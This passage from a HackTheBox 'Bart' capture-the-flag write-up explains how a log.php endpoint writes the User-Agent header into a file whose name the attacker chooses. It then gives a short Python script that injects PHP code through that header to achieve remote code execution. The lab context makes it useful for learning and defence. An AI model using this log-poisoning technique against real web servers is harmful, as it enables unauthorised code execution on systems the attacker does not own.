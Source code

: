 ```js
function saveChat() {
// create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
	var xhr = new XMLHttpRequest();
		xhr.onreadystatechange = function() {
			if (xhr.readyState == XMLHttpRequest.DONE) {
			alert(xhr.responseText);
			}
				}
		xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
			xhr.send(null);
			alert("Done");
}
```

Seems that it's getting the the values from the user harvey on the file `log.txt`

If we open the `log.txt` file, we see that we get the user agent printed on our screen

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2012:13:44.png)

Humm... we try to click on Log, on the page and see the alert pop the Done in our screen

When the user clicks the Log link, there's a popup saying "Done", and then one saying "1". That's because the xhr.open function is called with the 3rd parameter true, which sets the call to async mode. The script then alerts "Done", and then, when the http request comes back, the xhr.onreadystatechange function is called, which alerts with the response text.

Checking out the url that's being called, if viewed directly, it outputs just the number 1, as seen in the popup.

If you change the file parameter to a file that already exists and we can't write over (like the page source), it returns 0. Also, if you change it to a user that doesn’t exist, it returns 0. What about the file? Turns out that file is available in the same directory:

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2012:24:18.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2012:24:28.png)

So, we should poison it, once it's getting the user agent, if we put a malicious php as user-agent it will be executed.

# RCE

So, let's execute it

```py
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'0x4rt3mis: <?php phpinfo(); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', proxies=proxies, headers=headers)
```
